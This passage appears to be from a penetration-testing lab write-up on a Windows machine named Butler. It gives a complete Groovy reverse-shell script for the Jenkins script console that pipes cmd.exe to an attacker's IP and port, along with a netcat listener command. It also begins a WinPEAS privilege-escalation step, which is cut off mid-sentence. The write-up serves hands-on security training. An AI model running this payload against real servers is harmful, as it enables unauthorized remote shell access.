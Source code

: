 ```
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

Before we run the Groovy script in Butler, we need to set up a `netcat` listener
on our attack machine with `nc -nvlp <PORT NUMBER>`. Running the script will
then give us a low privilege shell as user `butler`:

<img src="./images/Butler__Jenkins_ReverseShellSuccessful.png" alt="Reverse Shell with Jenkins" width="1400"/>



### Privilege Escalation with WinPEAS

Analogous to `LinPEAS` for Linux, we can upload the script `WinPEAS` to the
victim machine to enumerate possibilities of privilege 



```
c:\Users\butler\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Users\butler\Downloads

08/14/2021  05:23 AM    <DIR>          .
08/14/2021  05:23 AM    <DIR>          ..
08/14/2021  05:23 AM        16,013,912 WiseCare365_5.6.7.568.exe
               1 File(s)     16,013,912 bytes
               2 Dir(s)   9,190,080,512 bytes free
```
